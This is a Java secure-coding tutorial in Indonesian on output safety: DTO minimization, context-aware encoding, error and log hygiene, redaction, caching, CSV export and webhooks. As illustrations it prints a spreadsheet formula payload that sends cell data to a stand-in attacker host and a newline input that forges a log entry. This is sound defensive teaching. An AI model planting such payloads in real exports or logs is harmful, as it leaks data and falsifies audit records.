




# Part 009 — Output Encoding and Data Exposure

> Output safety bukan hanya “hindari XSS”. Output safety adalah kemampuan sistem untuk memastikan data yang keluar dari boundary hanya **data yang benar, dalam konteks yang benar, dengan representasi yang aman, kepada audience yang benar, dan dengan jejak operasional yang tidak membocorkan rahasia**.

Pada Part 008, kita membahas input: bagaimana data tidak dipercaya masuk ke sistem dan menjadi domain value yang aman. Part ini membahas sisi sebaliknya: bagaimana data keluar dari sistem tanpa berubah menjadi executable content, bocor ke actor yang salah, tersimpan di kanal observability yang salah, atau menjadi bukti audit yang tidak defensible.

Dalam sistem Java modern, output bukan hanya HTTP response. Output mencakup JSON, HTML, CSV, PDF, email, push notification, webhook, Kafka event, audit log, application log, metric label, distributed trace attribute, exception message, cache entry, file export, object storage object, temporary file, database projection, dan admin dashboard.

---

## 1. Posisi Part Ini dalam Framework Kaufman

Kaufman-style skill decomposition untuk output safety:

| Subskill | Tujuan Praktis |
|---|---|
| Audience mapping | Menentukan siapa yang boleh melihat data tertentu. |
| Channel classification | Membedakan response, log, metric, trace, event, export, cache, dan notification. |
| Context-aware encoding | Mengubah data menjadi representasi aman sesuai konteks interpretasi. |
| Data minimization | Mengeluarkan field minimum yang dibutuhkan caller. |
| Error hygiene | Menghasilkan error yang membantu user/operator tanpa membocorkan internals. |
| Redaction and masking | Mengontrol representasi data sensitif di log, trace, UI, dan export. |
| Exposure testing | Menguji bahwa field rahasia tidak muncul di kanal tidak semestinya. |
| Operational containment | Mengurangi blast radius saat output salah masuk ke log/cache/event. |

Target part ini: kamu mampu mendesain outbound pipeline yang mencegah XSS, log injection, accidental PII leakage, verbose error disclosure, over-broad DTO exposure, cache leakage, trace/metric leakage, webhook data oversharing, dan export yang sulit dipertanggungjawabkan.

---

## 2. Mental Model: Output Adalah Boundary Kedua

Banyak engineer memperlakukan output sebagai konsekuensi otomatis dari domain object. Ini berbahaya.

Domain object biasanya menyimpan **semua yang sistem tahu**. Output harus berisi **hanya yang audience perlu dan berhak tahu**.



Kaidahnya:

> Jangan pernah mengirim domain object langsung ke boundary eksternal.

Domain object boleh kaya. Output object harus sengaja miskin.

---

## 3. Output Safety Bukan Satu Kontrol

Output risk terjadi karena beberapa kegagalan berbeda.

| Failure | Contoh | Kontrol Utama |
|---|---|---|
| Wrong audience | User A melihat data User B | Authorization + projection per audience |
| Wrong field | Response berisi `passwordHash`, `secretKey`, `internalRiskScore` | DTO minimization |
| Wrong context | String user masuk HTML/JS tanpa encoding | Context-aware output encoding |
| Wrong channel | Access token muncul di log | Redaction/masking/logging policy |
| Wrong lifetime | Data sensitif masuk cache/CDN | Cache policy, private/no-store |
| Wrong fidelity | Masking terlalu sedikit atau terlalu banyak | Classification-aware rendering |
| Wrong error detail | Stack trace dikirim ke client | Error response hygiene |
| Wrong audit semantics | Log tidak membedakan actor/action/resource/outcome | Audit event design |

Security output bukan hanya “escape string”. Ia adalah kombinasi authorization, minimization, encoding, observability hygiene, dan retention policy.

---

## 4. Data Classification untuk Output

Sebelum bisa mengontrol output, sistem perlu tahu jenis data yang sedang keluar.

Contoh klasifikasi praktis:

| Class | Contoh | Boleh di Response? | Boleh di Log? | Catatan |
|---|---|---:|---:|---|
| Public | product name, public status | Ya | Ya | Tetap encode sesuai konteks. |
| Internal | internal ID, workflow state | Tergantung audience | Tergantung | Jangan bocor ke public client. |
| Confidential | email, phone, address, case note | Tergantung authorization | Masked only | Perlu purpose dan retention. |
| Secret | password, token, private key, API key | Hampir tidak pernah | Tidak | Jangan searchable di log. |
| Regulated | national ID, health data, financial data | Strict | Strict masked/no log | Audit dan minimization penting. |
| Integrity-critical | decision reason, enforcement outcome | Ya untuk audience tepat | Ya di audit log | Harus tamper-evident di sistem tertentu. |

Gunakan klasifikasi ini untuk membuat keputusan sistematis. Tanpa klasifikasi, redaction akan menjadi regex random yang selalu bocor pada edge case.

---

## 5. DTO Minimization: Jangan Serialize Domain Object

Anti-pattern umum:

```java
@GetMapping("/users/{id}")
public User getUser(@PathVariable UUID id) {
    return userRepository.findById(id).orElseThrow();
}
```

Masalahnya bukan hanya field sensitif. Masalahnya adalah kontrak publik sekarang tergantung struktur domain internal.

Domain object sering berisi:

- password hash;
- security flags;
- internal risk score;
- fraud marker;
- tenant ID internal;
- audit metadata;
- soft-delete marker;
- workflow transition state;
- raw provider payload;
- lazy-loaded association;
- object graph yang terlalu luas.

Lebih aman:

```java
public record UserProfileResponse(
        UUID id,
        String displayName,
        String maskedEmail,
        boolean mfaEnabled
) {}

public final class UserProfileMapper {
    public UserProfileResponse toResponse(User user, Viewer viewer) {
        return new UserProfileResponse(
                user.id(),
                user.displayName(),
                Masking.email(user.email()),
                user.securityProfile().mfaEnabled()
        );
    }
}
```

Yang penting: mapper bukan hanya transformasi teknis. Mapper adalah enforcement point untuk audience, classification, dan contract.

---

## 6. Projection Harus Audience-Aware

Satu resource bisa memiliki banyak projection.



Jangan membuat satu `CaseResponse` yang dipakai semua audience lalu berharap `@JsonIgnore` cukup.

Lebih baik punya model eksplisit:

```java
public sealed interface CaseProjection permits PublicCaseView, OfficerCaseView, AuditCaseView {}

public record PublicCaseView(
        String referenceNumber,
        String publicStatus,
        String nextStep
) implements CaseProjection {}

public record OfficerCaseView(
        UUID caseId,
        String referenceNumber,
        String workflowState,
        List<String> assignedTeams,
        Instant dueAt
) implements CaseProjection {}

public record AuditCaseView(
        UUID caseId,
        String actorId,
        String action,
        String outcome,
        Instant occurredAt,
        String evidenceHash
) implements CaseProjection {}
```

Projection yang berbeda memaksa reviewer bertanya: “audience mana?” bukan “field mana yang kebetulan ada?”

---

## 7. Context-Aware Output Encoding

Encoding harus sesuai konteks interpretasi. Encoding HTML body tidak sama dengan HTML attribute, JavaScript string, CSS, URL, CSV, SQL literal, shell argument, atau log line.

| Sink Context | Risiko | Kontrol |
|---|---|---|
| HTML body | XSS via markup/script | HTML entity encoding |
| HTML attribute | attribute breakout | Attribute encoding + quoted attributes |
| JavaScript string | script execution | JS string encoding; hindari inline JS |
| CSS | CSS injection | Hindari dynamic CSS; strict allowlist |
| URL parameter | URL manipulation | Percent-encoding per component |
| JSON | Broken JSON / XSS in HTML embedding | JSON serializer; correct content type |
| CSV | Formula injection | Prefix/escape dangerous cells |
| Log line | Log forging/injection | Structured logging + CR/LF neutralization |
| XML | Entity/markup injection | XML serializer + parser hardening |
| Shell/process | Command injection | Hindari shell; pass arguments as array |

Aturan mental:

> Escape sedekat mungkin dengan sink, bukan saat data masuk.

Data domain harus tetap berupa data. Encoding adalah keputusan output-context.

---

## 8. XSS: Masalah Output Context, Bukan Masalah String Jahat

XSS terjadi saat browser menafsirkan data sebagai code.

Contoh buruk:

```java
String html = "<div>Welcome " + userDisplayName + "</div>";
```

Jika `userDisplayName` berisi markup, browser bisa mengeksekusinya.

Lebih aman:

```java
String html = "<div>Welcome " + Encode.forHtml(userDisplayName) + "</div>";
```

Namun kontrol terbaik biasanya bukan merangkai HTML di Java. Gunakan template engine dengan auto-escaping dan hindari escape hatch seperti raw/unescaped output.

Untuk aplikasi frontend modern, backend Java tetap bertanggung jawab untuk:

- mengirim `Content-Type` benar;
- tidak memasukkan user-controlled data ke HTML shell tanpa encoding;
- tidak menyimpan payload berbahaya yang nanti dirender admin dashboard;
- membatasi HTML rich text dengan sanitizer yang tepat;
- tidak mengandalkan frontend untuk semua output safety.

Stored XSS sering muncul dari field yang dianggap “admin-only”, misalnya case note, officer comment, customer name dari integrasi pihak ketiga, atau ticket subject.

---

## 9. Rich Text: Encoding Saja Tidak Cukup

Jika aplikasi mengizinkan user memasukkan rich text, pilihannya bukan “escape semua” atau “percaya HTML user”.

Gunakan pipeline:



Hindari:

- regex untuk membersihkan HTML;
- allowlist yang terlalu luas seperti `style`, `on*`, `srcdoc`;
- membolehkan `javascript:` atau unsafe data URI;
- mencampur sanitized HTML dengan unsanitized fragments;
- menganggap “admin input” selalu trusted.

Rich text harus dianggap sebagai mini-language dengan grammar dan policy sendiri.

---

## 10. Error Response Hygiene

Client butuh error yang actionable. Attacker tidak boleh mendapat internal map.

Buruk:

```json
{
  "error": "org.postgresql.util.PSQLException: relation enforcement_case_v2 does not exist",
  "stackTrace": "...",
  "sql": "select * from enforcement_case_v2 where tenant_id = ..."
}
```

Lebih baik:

```json
{
  "type": "https://example.com/problems/internal-error",
  "title": "Unexpected error",
  "status": 500,
  "traceId": "01J4Z...",
  "message": "The request could not be completed. Contact support with the trace ID."
}
```

Server log internal boleh menyimpan detail yang dibutuhkan operator, tetapi tetap harus redacted.

Pattern Java:

```java
public record ApiError(
        String type,
        String title,
        int status,
        String traceId,
        String message
) {}

public final class ErrorResponseFactory {
    public ApiError from(Throwable error, String traceId) {
        return switch (error) {
            case DomainValidationException e -> new ApiError(
                    "https://example.com/problems/validation-error",
                    "Validation failed",
                    400,
                    traceId,
                    e.safeClientMessage()
            );
            case AuthorizationDeniedException e -> new ApiError(
                    "https://example.com/problems/forbidden",
                    "Forbidden",
                    403,
                    traceId,
                    "You are not allowed to perform this action."
            );
            default -> new ApiError(
                    "https://example.com/problems/internal-error",
                    "Unexpected error",
                    500,
                    traceId,
                    "The request could not be completed."
            );
        };
    }
}
```

Jangan kirim:

- stack trace;
- SQL query;
- table/column name internal;
- file path server;
- hostname internal;
- secret/env var;
- classpath/dependency version;
- policy rule detail yang membantu bypass;
- perbedaan error yang memungkinkan enumeration.

---

## 11. Enumeration Leakage lewat Error

Output exposure tidak selalu berupa field eksplisit. Kadang berupa perbedaan response.

Contoh:

| Request | Response | Leak |
|---|---|---|
| login email tidak ada | `404 user not found` | Email enumeration |
| login password salah | `401 wrong password` | Email valid |
| reset password email tidak ada | `No account exists` | Account enumeration |
| case ID milik tenant lain | `403 forbidden` | Case exists |
| case ID tidak ada | `404 not found` | Existence oracle |

Kadang sistem harus mengembalikan status berbeda karena kebutuhan UX/API. Tetapi keputusan itu harus eksplisit.

Default aman untuk resource cross-tenant:

```java
public Case loadVisibleCase(UUID caseId, Viewer viewer) {
    return caseRepository.findByIdAndTenant(caseId, viewer.tenantId())
            .orElseThrow(() -> new NotFoundException("Case not found"));
}
```

Untuk caller, resource yang tidak ada dan resource yang tidak boleh dilihat bisa sama-sama “not found” jika existence sendiri sensitif.

---

## 12. Logging: Output ke Audience Internal Tetap Output

Log sering diperlakukan sebagai tempat aman. Itu asumsi lemah.

Log dibaca oleh:

- developer;
- SRE;
- support;
- SIEM;
- vendor observability;
- backup system;
- incident responder;
- audit/review tooling;
- sometimes attacker after compromise.

Jadi log harus mengikuti policy.

Contoh buruk:

```java
log.info("Login failed for password={} token={} user={}", password, token, email);
```

Lebih baik:

```java
log.info("login_failed user_hash={} reason={} trace_id={}",
        Hashing.stablePrivacyHash(email),
        "invalid_credentials",
        traceId);
```

Prinsip log safety:

1. Jangan log secret.
2. Jangan log raw credential.
3. Jangan log full token; maksimal fingerprint pendek.
4. Jangan log full PII kecuali audit requirement jelas.
5. Jangan log request/response body mentah secara default.
6. Jangan log header sensitif seperti `Authorization`, `Cookie`, `Set-Cookie`, `X-Api-Key`.
7. Gunakan structured logging agar newline/log forging lebih terkendali.
8. Redaction harus default-on di boundary observability.

---

## 13. Log Injection dan Log Forging

Jika input user masuk log line mentah, attacker bisa menyisipkan newline dan membuat event palsu.

Buruk:

```java
log.warn("Failed login for user=" + username);
```

Jika `username` berisi:

```text
alice
INFO payment_approved actor=system amount=1000000
```

Log text bisa terlihat seperti event sah.

Gunakan structured logging dan neutralisasi control characters:

```java
public final class LogSafe {
    private LogSafe() {}

    public static String text(String value) {
        if (value == null) return null;
        return value
                .replace("\r", "\\r")
                .replace("\n", "\\n")
                .replace("\t", "\\t");
    }
}
```

Lalu:

```java
log.warn("login_failed username={} ip={} trace_id={}",
        LogSafe.text(username),
        clientIp,
        traceId);
```

Untuk log JSON, gunakan encoder JSON resmi dari logging framework, bukan string concatenation.

---

## 14. Redaction vs Masking vs Tokenization

Istilah ini sering dicampur.

| Teknik | Makna | Contoh | Kapan Dipakai |
|---|---|---|---|
| Redaction | Menghapus nilai | `token=[REDACTED]` | Secret, credential, private key |
| Masking | Menampilkan sebagian | `email=a***@example.com` | Support UX, non-secret PII |
| Tokenization | Mengganti dengan token referensi | `customer=tok_abc123` | Sistem yang perlu referensi tanpa nilai asli |
| Hash fingerprint | Hash stabil untuk korelasi terbatas | `user_hash=H(...)` | Fraud/debug dengan privacy constraint |

Jangan masking secret dengan “last 4 chars” jika secret itu bearer credential dan last chars cukup untuk korelasi/attack.

Untuk token, lebih aman log fingerprint:

```java
public final class SecretFingerprint {
    private SecretFingerprint() {}

    public static String fingerprint(byte[] secret, Mac hmac) {
        byte[] digest = hmac.doFinal(secret);
        return Base64.getUrlEncoder()
                .withoutPadding()
                .encodeToString(Arrays.copyOf(digest, 12));
    }
}
```

Catatan: implementasi HMAC/key management akan dibahas lebih dalam di Part 012 dan Part 018. Di sini fokusnya adalah output policy.

---

## 15. Annotation-Based Redaction: Berguna, Tapi Jangan Overtrust

Kita bisa membantu developer dengan annotation:

```java
@Retention(RetentionPolicy.RUNTIME)
@Target({ElementType.FIELD, ElementType.RECORD_COMPONENT})
public @interface Sensitive {
    Sensitivity value();
}

public enum Sensitivity {
    SECRET,
    PII,
    INTERNAL,
    REGULATED
}
```

Contoh DTO internal:

```java
public record PaymentDebugView(
        UUID paymentId,
        @Sensitive(Sensitivity.PII) String payerEmail,
        @Sensitive(Sensitivity.SECRET) String providerApiKey,
        String status
) {}
```

Redactor:

```java
public final class Redactor {
    public Object redact(Object value, Sensitivity sensitivity) {
        if (value == null) return null;
        return switch (sensitivity) {
            case SECRET -> "[REDACTED]";
            case PII -> Masking.generic(String.valueOf(value));
            case INTERNAL -> "[INTERNAL]";
            case REGULATED -> "[REDACTED:REGULATED]";
        };
    }
}
```

Namun annotation tidak cukup jika:

- object berubah menjadi `Map<String,Object>`;
- field berada dalam nested JSON mentah;
- dependency melakukan logging sendiri;
- exception message sudah mengandung secret sebelum redactor bekerja;
- data sensitif masuk metric label;
- data masuk trace attribute sebelum filter.

Annotation adalah guardrail, bukan security boundary absolut.

---

## 16. Metrics: Jangan Masukkan Data High-Cardinality atau Sensitive

Metric label terlihat tidak berbahaya, tetapi sering disimpan lama dan direplikasi luas.

Buruk:

```java
counter("login.failed", "email", email, "reason", reason).increment();
```

Masalah:

- email menjadi PII di metric backend;
- cardinality meledak;
- biaya naik;
- query lambat;
- data sulit dihapus;
- metric bisa menjadi side-channel.

Lebih baik:

```java
counter("login.failed", "reason", normalizeReason(reason)).increment();
```

Metric label harus low-cardinality dan non-sensitive:

- status class: `2xx`, `4xx`, `5xx`;
- endpoint template: `/cases/{id}` bukan `/cases/123`;
- reason code terbatas;
- tenant tier bukan tenant ID jika tenant ID sensitif;
- algorithm family bukan raw key ID jika key ID sensitif.

---

## 17. Distributed Tracing: Trace Attribute Bisa Bocor Lebih Cepat dari Log

Tracing sering otomatis menangkap:

- HTTP URL;
- query parameter;
- headers;
- database statement;
- message attributes;
- exception message;
- stack trace;
- user ID;
- tenant ID.

Buat policy:

| Attribute | Policy |
|---|---|
| `Authorization` header | Drop |
| Cookie | Drop |
| API key header | Drop |
| Full URL with query | Strip query or allowlist |
| SQL statement | Parameterized/obfuscated only |
| User email | Hash/mask/drop |
| Tenant ID | Depends classification |
| Exception message | Sanitize |
| Request body | Off by default |

Java service yang aman tidak hanya punya logging filter. Ia juga punya tracing filter.

---

## 18. Cache Exposure

Output yang benar untuk satu user bisa salah jika cache key atau cache-control salah.

Contoh risiko:

- CDN menyimpan personalized response;
- browser cache menyimpan document sensitif di shared machine;
- server-side cache key tidak menyertakan tenant/audience;
- authorization berubah tetapi cache tetap melayani response lama;
- export URL publik tanpa expiry;
- signed URL terlalu lama hidup.

Default untuk data sensitif:

```http
Cache-Control: no-store
Pragma: no-cache
```

Untuk data yang boleh cache:

- cache key harus memasukkan tenant/audience/policy version bila relevan;
- response harus tidak mengandung data user-specific kecuali private cache;
- invalidation harus mempertimbangkan authorization changes;
- signed URL harus punya expiry singkat dan scope sempit.

---

## 19. File Export dan Spreadsheet Injection

CSV/Excel export adalah output sink yang sering dilupakan.

Jika cell dimulai dengan karakter seperti `=`, `+`, `-`, atau `@`, spreadsheet bisa menafsirkan cell sebagai formula.

Contoh payload:

```text
=HYPERLINK("http://attacker.example/" & A1, "click")
```

Kontrol:

```java
public final class CsvCellSafe {
    private static final Set<Character> DANGEROUS_PREFIXES = Set.of('=', '+', '-', '@');

    public static String safeCell(String value) {
        if (value == null || value.isEmpty()) return value;
        char first = value.charAt(0);
        if (DANGEROUS_PREFIXES.contains(first)) {
            return "'" + value;
        }
        return value;
    }
}
```

Selain itu:

- jangan export field lebih banyak dari audience;
- watermark export sensitif;
- audit siapa meng-export apa dan kapan;
- enkripsi export at rest jika disimpan;
- expiry untuk download link;
- jangan simpan export sensitif di temp directory world-readable;
- hapus file sementara setelah digunakan.

---

## 20. Webhook dan Event: Output ke Sistem Lain

Webhook/event sering dianggap internal, padahal ia memperluas trust boundary.

Kegagalan umum:

- mengirim full domain object ke partner;
- memasukkan field internal karena serializer otomatis;
- tidak punya contract version;
- event replay membuka data lama;
- dead-letter queue menyimpan payload sensitif terlalu lama;
- log broker/consumer menyalin payload mentah;
- topic terlalu luas sehingga subscriber tidak perlu ikut membaca data sensitif.

Pattern aman:

```java
public record CaseStatusChangedEvent(
        String eventId,
        String eventType,
        String version,
        Instant occurredAt,
        String caseReference,
        String previousPublicStatus,
        String newPublicStatus
) {}
```

Bukan:

```java
public record CaseStatusChangedEvent(Case caseDomainObject) {}
```

Event harus diperlakukan sebagai API publik jangka panjang.

---

## 21. Response Header Hygiene

Output safety juga terjadi di metadata.

Minimal yang perlu diperhatikan:

| Header | Tujuan |
|---|---|
| `Content-Type` | Mencegah client salah menafsirkan response. |
| `X-Content-Type-Options: nosniff` | Mengurangi MIME sniffing. |
| `Cache-Control` | Mengontrol penyimpanan response. |
| `Content-Security-Policy` | Defense-in-depth untuk XSS. |
| `Referrer-Policy` | Mengurangi leakage URL. |
| `Strict-Transport-Security` | Memaksa HTTPS untuk domain yang cocok. |
| `Content-Disposition` | Mengontrol inline/download behavior. |

Header tidak menggantikan encoding. CSP adalah seatbelt, bukan rem utama.

---

## 22. Output Safety untuk Admin UI

Admin UI sering lebih berbahaya daripada public UI karena:

- menampilkan data dari banyak user;
- punya privilege tinggi;
- operator bisa melakukan action destruktif;
- sering menampilkan “raw payload” untuk debugging;
- sering dibuat cepat dan kurang diuji.

Stored XSS di admin UI bisa berubah menjadi privilege escalation.

Kontrol khusus:

- render semua user-generated content sebagai text by default;
- gunakan viewer terpisah untuk raw payload;
- batasi HTML/Markdown renderer;
- jangan tampilkan token/full secret;
- confirmation step untuk action sensitif;
- audit setiap read data sensitif jika regulasi menuntut;
- gunakan CSP ketat;
- segmentasi role admin;
- jangan gabungkan support/admin/superuser sebagai satu role.

---

## 23. Example: Safe Outbound Pipeline

```java
public final class OutboundRenderer {
    private final AuthorizationService authorizationService;
    private final CaseProjectionFactory projectionFactory;
    private final DataExposurePolicy exposurePolicy;

    public CaseProjection renderCase(CaseId caseId, Viewer viewer) {
        Case domain = loadCase(caseId, viewer.tenantId());

        authorizationService.requireCanView(viewer, domain);

        CaseProjection projection = projectionFactory.project(domain, viewer.role());

        exposurePolicy.assertNoForbiddenFields(projection, viewer.audience());

        return projection;
    }
}
```

Di controller:

```java
@GetMapping("/cases/{caseId}")
public ResponseEntity<CaseProjection> getCase(
        @PathVariable UUID caseId,
        AuthenticatedViewer viewer
) {
    CaseProjection response = outboundRenderer.renderCase(new CaseId(caseId), viewer.toViewer());

    return ResponseEntity.ok()
            .header(HttpHeaders.CACHE_CONTROL, "no-store")
            .body(response);
}
```

Di sini output safety adalah pipeline:

1. load resource dalam tenant boundary;
2. authorization;
3. audience-aware projection;
4. exposure assertion;
5. cache-control;
6. serializer aman.

---

## 24. Test Strategy untuk Data Exposure

Security output harus dites.

Contoh test field leakage:

```java
@Test
void publicCaseViewMustNotContainInternalFields() throws Exception {
    mockMvc.perform(get("/cases/{id}", caseId)
            .with(user("citizen@example.com")))
            .andExpect(status().isOk())
            .andExpect(jsonPath("$.internalRiskScore").doesNotExist())
            .andExpect(jsonPath("$.assignedOfficerId").doesNotExist())
            .andExpect(jsonPath("$.rawProviderPayload").doesNotExist());
}
```

Contoh test log redaction:

```java
@Test
void logsMustNotContainAccessToken() {
    String token = "secret-token-value";

    authService.authenticate(new BearerToken(token));

    assertThat(testLogSink.events())
            .noneMatch(event -> event.formattedMessage().contains(token));
}
```

Contoh test error hygiene:

```java
@Test
void serverErrorMustNotExposeStackTraceOrSql() throws Exception {
    mockMvc.perform(get("/cases/{id}", brokenCaseId))
            .andExpect(status().isInternalServerError())
            .andExpect(jsonPath("$.traceId").exists())
            .andExpect(content().string(not(containsString("SQLException"))))
            .andExpect(content().string(not(containsString("select *"))))
            .andExpect(content().string(not(containsString("at com.example"))));
}
```

---

## 25. Output Security Invariants

Gunakan invariants berikut di PR review:

1. Domain object tidak boleh langsung keluar ke external boundary.
2. Setiap output punya audience yang jelas.
3. Setiap sensitive field punya policy response/log/trace/metric/export.
4. Encoding dilakukan sesuai sink context.
5. Error client tidak membawa stack trace, query, secret, path, hostname, atau class internal.
6. Log tidak berisi credential, token, private key, password, atau raw regulated data.
7. Metric label tidak berisi PII/secret/high-cardinality identifier.
8. Trace attribute difilter seperti log.
9. Cache key dan cache policy mempertimbangkan user/tenant/audience/policy version.
10. Export/webhook/event tidak menggunakan domain object mentah.
11. Data exposure test ada untuk endpoint/output berisiko tinggi.
12. Admin UI tidak dianggap trusted renderer.

---

## 26. Common Pitfalls

| Pitfall | Kenapa Berbahaya | Alternatif |
|---|---|---|
| `return entity` dari controller | Field internal bocor | Explicit response DTO |
| `@JsonIgnore` sebagai policy | Mudah dilupakan, tidak audience-aware | Projection per audience |
| Escape saat input | Salah konteks output | Escape near sink |
| Log request body default | Token/PII bocor | Allowlist field log |
| Full URL di trace | Query param sensitif bocor | Strip/allowlist query |
| Error detail ke client | Reconnaissance attacker | Safe error contract |
| Metric label user ID/email | PII + cardinality explosion | Low-cardinality reason code |
| Admin UI raw render | Stored XSS privilege escalation | Text rendering/sanitizer/CSP |
| CSV export tanpa formula defense | Spreadsheet injection | Dangerous prefix handling |
| Event berisi domain object | Partner/subscriber overexposure | Versioned event projection |

---

## 27. Deliberate Practice

Latihan efektif untuk part ini:

1. Ambil satu endpoint read-only dari sistem nyata.
2. Daftar semua field domain object.
3. Klasifikasikan setiap field: public/internal/confidential/secret/regulated.
4. Tentukan audience: self, officer, supervisor, admin, partner, auditor.
5. Buat projection berbeda untuk minimal 3 audience.
6. Tambahkan test bahwa field forbidden tidak muncul.
7. Simulasikan exception internal dan pastikan response aman.
8. Kirim payload dengan newline ke field yang masuk log.
9. Pastikan log tidak forged dan sensitive value tidak muncul.
10. Tambahkan cache header policy.

Hasil latihan bukan hanya kode. Hasilnya adalah kemampuan melihat output sebagai controlled disclosure.

---

## 28. Review Checklist

Sebelum merge fitur yang mengeluarkan data:

- [ ] Apakah output audience-nya jelas?
- [ ] Apakah domain entity pernah diserialize langsung?
- [ ] Apakah ada field internal/secret/regulated yang bisa bocor?
- [ ] Apakah encoding sesuai konteks sink?
- [ ] Apakah error response aman?
- [ ] Apakah log/trace/metric difilter?
- [ ] Apakah cache policy sesuai sensitivitas data?
- [ ] Apakah webhook/event/export punya projection eksplisit?
- [ ] Apakah ada test anti-leakage?
- [ ] Apakah admin UI tetap memperlakukan user data sebagai untrusted?

---

## 29. Ringkasan

Output safety adalah desain disclosure, bukan sekadar escaping.

Model yang harus dibawa:



Jika Part 008 mengajarkan “jangan percaya input”, Part 009 mengajarkan “jangan sembarang mengeluarkan apa yang sistem tahu”.

Pada part berikutnya, kita mulai masuk ke Java Cryptography Architecture. Ini penting karena crypto adalah area di mana output/input/integrity tidak lagi cukup dengan policy biasa; kita perlu primitive, key, provider, algorithm, dan invariant yang benar.

---

## Referensi

- OWASP Cross-Site Scripting Prevention Cheat Sheet — context-aware output encoding rules.
- OWASP Logging Cheat Sheet — security logging, data exclusion, event attributes, and log protection.
- OWASP Top 10 2025 A09 Security Logging and Alerting Failures — logging output encoding and sensitive data in logs.
- Oracle Secure Coding Guidelines for Java SE — confidential data, logging sensitive information, and output safety.
- OWASP Java Encoder Project — Java-oriented output encoding support.
